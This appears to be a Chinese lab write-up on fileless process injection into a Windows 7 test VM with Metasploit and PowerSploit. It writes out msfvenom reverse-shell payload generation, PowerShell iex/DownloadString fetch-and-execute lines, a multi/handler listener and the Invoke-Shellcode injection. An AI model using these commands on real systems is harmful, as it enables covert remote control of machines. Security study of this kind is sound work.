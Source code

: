 [TOC]

## 实验内容

1. 实验名称

利用powersploit进行系统注入

2. 实验环境

- 靶机：windows7，主机名target

- 攻击机：

  ​	宿主机：macOS，主机名host

  ​	虚拟机：kali，主机名vmhost

- 使用工具：

  1. metasploit：制作木马
  2. apache2：提供下载
  3. powersploit：进程注入工具
  4. Parallels Desktop：虚拟机

3. 解决问题

(1) 将木马代码注入到进程中，实现无文件攻击

(2) 解决肉鸡通过宿主机回连虚拟机

4. 未解决问题

（1）已实现主机存活确认，但是未成功实现远程命令控制

解决：一开始用的reverse_https模块，只能知道靶机连上了但是没法发命令。后来改了reverse_tcp模块，就成了。坑爹啊

（2）改reverse_tcp之后，又发现很多命令运行不了，不知道为啥

![problem](/Users/reyiko/Documents/notes/exp/img/01进程注入problem.png)

## 实验过程

### payload

用metasploit制作一个远程控制的木马，方便之后注入到进程中

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.32.197 LPORT=4444 -f powershell -o /var/www/html/code1009
```

放在``/var/www/html/``目录是kali自带apache的网页目录。为了在kali上提供一个可以下载payload的链接。

如果没有开启apache服务，需要开启下

```shell
service apache2 start
```

### 配置端口转发

这边还遇到个问题。换了mac第一次整虚拟机，也不知道怎么弄-_-!

用的Parallels Desktop，可以在配置里面搞端口转发规则

【设备】-【网络】-【配置】-【高级设置】-【打开网络首选项】

在shared标签下可以配置端口转发规则。转发了``80端口``（apache服务器，下载木马的时候用到）和``4444端口``（msf反弹端口）

### 靶机下载payload

用到iex命令

该命令主要是执行指定字符串并返回结果

![](/Users/reyiko/Documents/notes/exp/img/01进程注入iex.png)

利用该命令从apache服务器下载并执行

```powershell
iex(New-Object Net.WebClient).DownloadString('http://host:4321/power/CodeExecution/Invoke-Shellcode.ps1')
iex(New-Object Net.WebClient).DownloadString('http://host:4321/code1009')
```

### msf进行监听

注意这边配置的时候``LHOST``要设置为虚拟机的IP。

一开始配了localhost，眉头一皱发现事情不对

```shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp 
set LHOST vmhost
set LPORT 4444
exploit
```

### 主机上线

这时候可以运行了。先起一个进程

```powershell
Start-Process c:\windows\system32\notepad.exe -WindowStyle Hidden
```

看一下对应的进程ID

![PID](/Users/reyiko/Documents/notes/exp/img/01进程注入pid.png)

```powershell
Invoke-Shellcode -Shellcode ($buf) -ProcessID 4276
```

这边看到主机上线了

![reverse](/Users/reyiko/Documents/notes/exp/img/01进程注入msf.png)

运行下命令

![success](/Users/reyiko/Documents/notes/exp/img/01进程注入success.png)

## 热身

做之前其实还做了个热身

- metaspolit木马回连

  ```shell
  msfvenom -p windows/meterpreter/reverse_https lhost=host lport=4444 -f exe > ./root/desktop/evilshell1.exe
  msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_https
  set LHOST vmhost
  set LPORT 4444
  ```

  把第一条命令生成的exe文件传到靶机上，管理员身份运行，能成功检测到上线

参考

- https://www.freebuf.com/column/171993.html
- https://www.secpulse.com/archives/55893.html